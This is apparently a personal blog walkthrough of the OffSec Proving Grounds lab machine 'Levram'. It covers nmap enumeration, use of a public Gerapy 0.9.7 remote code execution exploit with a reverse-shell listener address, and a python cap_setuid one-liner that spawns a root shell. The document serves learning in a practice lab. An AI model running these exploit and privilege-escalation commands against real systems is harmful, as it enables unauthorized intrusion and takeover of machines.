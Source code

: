 ```yaml
---
title: "Proving Grounds: Levram"
description: Machine Walkthrough
author: hx77
date: 2024-08-15
categories: [walkthrough, proving_grounds]
tags: [proving_grounds, machines, walkthrough ]     # TAG names should always be lowercase
pin: false
image: 
    path: https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/78aee95c-ab7b-4cb1-5a28-c86e94471000/public
alt: Walkthrough of Levram
---
```


------

# OffSec Proving Grounds Walkthrough: Levram

## Table of Contents

1. [Introduction](#introduction)
2. [Information Gathering](#information-gathering)
    - [Initial Enumeration](#initial-enumeration)
3. [Exploitation](#exploitation)
    - [Gaining Initial Access](#gaining-initial-access)
    - [Privilege Escalation](#privilege-escalation)
4. [Conclusion](#conclusion)

## Introduction

- **Machine Name:** Levram
- **IP**: 192.168.213.24
- **Points**: 10
- **Difficulty Level:** Easy  
- **Operating System:** Linux
- **Objective:** This walkthrough details the process of identifying and exploiting vulnerabilities in the Levram system to achieve root access. The goal is to gain both user and root flags.

We are starting the journey with an easy box called "Levram",  I am going to tackle this in 4 steps:

1) Information Gathering
2) Exploitation
3) Post-Exploitation

and at the end I'll give you my conclusion of the box :)

Let's begin!

## Information Gathering

### Initial Enumeration

**Tool Used:** Nmap

I begin by scanning the target machine to identify any open ports, I know this box is easy so I'm starting with the bare basics as I don't think there's too much to it.

`nmap -p- -sV 192.168.213.24`

Nmap scan report for 192.168.213.24  
Host is up (0.035s latency).  
Not shown: 65533 closed tcp ports (conn-refused)  
PORT     STATE SERVICE  VERSION  
22/tcp   open  ssh      OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)  
8000/tcp open  http-alt WSGIServer/0.2 CPython/3.10.6

from this initial scan I can see that there's a webpage being served over at 192.168.213.24:8000, going to that page, I see:

![website](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/85daad90-5b9d-4948-06c6-e582d1b6ef00/public)

it looks like I will have to guess the username/password but first things first, I "inspect" the page for any comments or anything that can point me to an username or password, this lead me nowhere.... but I do have the words "gerapy"

**Tool Used:** searchsploit  
Using searchsploit I search for "gerapy", this search returned a vulnerability on Gerapy 0.9.7 that leads to a remote code execution.
I don't know what version of gerapy I am looking at, at least, not yet.

![searchsploit](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/5948fc87-05dc-4a79-1b2b-5d02b0059200/public)

next in line is to inspect the code for that vulnerability, I used the below flag to get the path of the file and copy the file into another directory for usage  
`searchsploit -p 50640`  

![searchsploit2](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/bdad7747-7bf8-4567-a4d4-8620be9e7e00/public)

I went ahead and loaded the code to inspect it to see what it does and right in front of my nose I see "username/password"  
![up](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/0ee7a73d-20cb-4587-7f11-1389e2383d00/public)

well, that made things a lot simpler... I went ahead and logged in into the website with those credentials to see what it was

![website1](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/e0ab43b6-f431-458d-d498-79366d863100/public)

at the bottom of the page I can see the gerapy version, 0.9.7! woot! that means the exploit will work!, lets continue reading the exploit to see what else I can find out.... in lines 80 and 81 I can see that I need to have a project ID - right now that website doesn't have any projects so the code will most likely fail if I run it.

![quit](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/032ec068-9b9e-4252-1920-b1681c0e7400/public)

I am currently logged in as the admin - so let's add a project and see what happens

![project](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/695b5112-681f-4814-550d-b8f93ea82000/public)  

it looks like I have the option to upload, close and create. I will go with create to begin with to see what happens when the code is executed, I'll adjust my approach if I get a failure.

![project1](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/a4ee6338-0f24-4402-e9ad-dac36c185b00/public)
 ok so we got everything ready to try the exploit! lets goooo!

## Exploitation

### Gaining Initial Access

Running the python script with all the required flags and a netcat listener ready to go gave me the initial foothold on the machine.

- **Exploit Used:** CVE-2021-43857
- **Command:**  
    `python3 exploit.py -t 192.168.213.24 -p 8000 -L 192.168.45.194 -P 1234`  
- **Outcome:** Gained access as 'app'  

![foothold](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/5d47f3cb-14e9-4fa4-68ca-ddd5995fee00/public)

First flag was found!  

![local_proof](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/54d5f84b-663c-4d5a-da10-098410529b00/public)  

### Privilege Escalation

The purpose of this step is to gain initial access level to root or admin.

- **Tool Used:** Manual methods  
- **Vulnerability Found:**  python!  
- **Exploit Method:**  
    `[exploit command]`  
- **Outcome:** Root access obtained.  

I looked around in the pc for a bit but couldn't find anything useful and for a bit I was stuck :/  
Then I went back to my checklist DUH! (I used this site to populate some of my items in the checklist - <https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/>)  

so I started with scanning the file system for files with capabilities using **`getcap -r /`**   The **-r** flag tells getcap to search recursively, **/** to indicate that we want to search the whole system, but I also don't want to see all the output because of the errors that will come up, so I used 2>/dev/null which yeets the output errors of the command to a blackhole.

- **Command:**  
 `getcap -r / 2>/dev/null`  

![getcap](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/a4840d62-095b-4674-752c-9dd7de7e5800/public)  

from that list I can see python3 and that it has cap_setuid set! soooo lets try to break out of the shell using  

- **Command:**  
 `./python -c 'import os; os.setuid(0); os.system("/bin/sh")'`  
 I edited it to reflect the path of the binary  
 `/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/sh")'`  
this command is used as a backdoor to maintain privileged access by manipulating its own process UIDl (<https://gtfobins.github.io/gtfobins/python/>)  

It worked! I navigated to "root" and was able to get the final flag "proof.txt"  

![root](https://imagedelivery.net/-rYpVInpJDYYl5Fx06AU4g/24d40868-faf1-4374-025f-87a5103cf800/public)  
**Done!**  

## Conclusion

- **Summary:** This walkthrough covered the steps from initial enumeration to privilege escalation in the Levram box from proving grounds.
- **Reflection:** I think this was a very good box due to the complexity of the privilege escalation, overall I liked it! Rating: 4/10.
